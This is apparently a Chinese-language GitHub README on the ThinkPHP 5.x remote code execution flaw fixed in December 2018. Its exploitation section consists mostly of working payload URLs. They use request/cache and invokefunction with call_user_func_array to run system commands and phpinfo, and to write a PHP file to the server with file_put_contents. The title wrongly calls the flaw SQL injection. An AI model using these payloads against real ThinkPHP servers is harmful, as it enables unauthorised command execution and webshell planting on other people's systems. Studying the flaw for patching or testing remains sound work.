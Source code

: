 # ThinkPHP5 SQL注入漏洞

## 0x01 简介
ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本(ThinkPHP 5.x (v5.0.23及v5.1.31以下版本)



## 0x02 漏洞利用

### 0x001 列目录


```php
http://127.0.0.1/public/index.php?s=/index/\think\request/cache&key=ls%20-l|system
```

```php
http://127.0.0.1/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20-l
```
![](README/642B0D8A-30F1-4E4E-861B-CE516D05DE34.png)



### 0x002 php info
```go
http://127.0.0.1/public/index.php?s=/index/\think\request/cache&key=1|phpinfo
```

![](README/A5A51EB8-2FE2-4128-8727-4D97B8972F41.png)



### 0x003 
```php
http://127.0.0.1/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=info.php&vars[1][]=%3C?php%20phpinfo();?%3E
```


![](README/9112DDE3-59B1-41EB-86D6-95A6F1A30DD1.png)


![](README/5E86AC19-937B-415E-904A-906F1BB0BE7C.png)


[ThinkPHP 5.x (v5.0.23及v5.1.31以下版本) 远程命令执行漏洞利用（GetShell） | VULNSPY](http://www.vulnspy.com/cn-thinkphp-5.x-rce/thinkphp_5.x_(v5.0.23%E5%8F%8Av5.1.31%E4%BB%A5%E4%B8%8B%E7%89%88%E6%9C%AC)_%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88getshell%EF%BC%89/)
[Thinkphp漏洞跟踪 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/93431.html)
